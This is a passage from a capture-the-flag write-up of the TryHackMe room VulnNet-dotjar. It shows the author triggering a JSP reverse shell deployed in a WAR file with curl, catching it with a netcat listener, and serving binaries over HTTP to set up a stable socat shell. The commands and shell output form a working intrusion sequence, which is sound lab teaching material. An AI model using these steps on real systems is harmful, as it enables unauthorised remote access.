 - Trigger the reverse shell:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:46:36(HKT)]
└> unzip revshell.war 
Archive:  revshell.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: WEB-INF/
  inflating: WEB-INF/web.xml         
  inflating: wrienossjrk.jsp
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:48:36(HKT)]
└> curl http://vulnnet-dotjar.thm:8080/revshell/wrienossjrk.jsp
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:48:20(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.203.203] 33058
whoami;hostname;id;ip a
web
vulnnet-dotjar
uid=1001(web) gid=1001(web) groups=1001(web)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:c1:df:0d:d2:ad brd ff:ff:ff:ff:ff:ff
    inet 10.10.203.203/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2901sec preferred_lft 2901sec
    inet6 fe80::c1:dfff:fe0d:d2ad/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `web`!

**Stable shell via `socat`:**
```shell
┌[root♥siunam]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.01.23|14:50:01(HKT)]-[git://master ✗]
└> python3 -m http.server 80                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:48:44(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/01/23 14:50:29 socat[51373] N opening character device "/dev/pts/2" for reading and writing
2023/01/23 14:50:29 socat[51373] N listening on AF=2 0.0.0.0:4444
```
